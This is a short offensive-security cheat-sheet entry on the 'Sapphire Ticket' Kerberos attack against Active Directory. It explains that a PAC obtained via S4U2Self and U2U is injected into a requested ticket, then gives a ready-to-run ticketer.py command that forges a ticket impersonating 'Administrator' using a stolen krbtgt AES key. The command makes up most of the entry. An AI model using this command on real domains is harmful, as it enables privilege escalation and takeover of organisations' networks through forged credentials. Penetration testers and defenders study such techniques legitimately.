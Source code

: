 # Sapphire Ticket

Similar to Diamond Ticket, but instead of decipher, modify, recipher and resign the PAC on the fly, this technique inject a fully new one PAC obtained via a S4USelf + U2U attack in the requested ticket.

    ticketer.py -request -impersonate 'Administrator' -domain 'domain.local' -user 'user1' -password 'password' -aesKey 'krbtgt_AES_key' -domain-sid '<domain_SID>' 'blabla'
